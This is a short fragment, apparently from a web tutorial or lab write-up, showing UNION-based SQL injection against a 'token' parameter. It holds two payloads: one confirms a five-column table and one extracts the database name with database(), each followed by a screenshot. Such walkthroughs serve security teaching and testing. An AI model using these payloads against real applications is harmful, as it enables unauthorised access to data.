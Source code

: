 ![Image](/img/req6.png)

that means table has 5 columns

#### Determine the databse name on the database

token=212174768840da1c6a1604c8b485a0ee'union+select+1,2,3,4,5--+

![Image](/img/2345.png)

token=212174768840da1c6a1604c8b485a0ee'union+select+1,database(),3,4,5--+

![Image](/img/databasename.png)
